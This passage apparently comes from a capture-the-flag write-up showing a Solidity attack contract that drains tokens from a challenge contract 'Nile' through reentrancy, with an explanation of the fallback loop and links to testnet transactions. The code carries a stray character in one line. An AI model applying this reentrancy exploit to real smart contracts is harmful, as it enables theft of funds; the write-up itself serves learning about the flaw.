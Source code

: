 
```solidity
pragma solidity ^0.7.6;
import "./Nile.sol";

contract Attack {
    Nile nile;
    uint256 internal n = 0;
    event Fallback(address caller, string message);

    constructor(address _nile) {
        nile = Nile(_nile);
    }

    function attack() public {f
        nile.createAccount();
        nile.redeem(99);
    }

    function getFlag(bytes32 token) public {
        nile.getFlag(token);
    }

    fallback() external payable {
        if (n < 11) {
            emit Fallback(msg.sender, "Fallback was called");
            n += 1;
            nile.deleteAccount();
            nile.createAccount();
            nile.redeem(99);
        } else {
            emit Fallback(msg.sender, "Fallback has ended");
        }
    }
}
```

A few things to note.  There are some variables, `nile` and `n`.
`nile` points to the deployment of the vulnerable contract, and `n`
records how many times the reentrancy was performed.  To perform the
attack we call `attack`, which creates the account and redeems 99
tokens.  Now, since `redeem` calls the fallback function of the
caller, we get to run the code in the `fallback()` method.

In the `fallback()` method we update the counter, delete the account,
create a new one and redeem another 99 tokens.  This works because the
state in the target contract actually hasn't been updated yet, so we
can just continue creating and redeeming tokens.

[These](https://goerli.etherscan.io/address/0x7083e0e27843e4df3558c546bd971b2d736d75d7)
series of transactions is proof that I was able to get the flag.
That's the magic of blockchain, [you can prove a heist happened](https://etherscan.io/address/0x59abf3837fa962d6853b4cc0a19513aa031fd32b)!
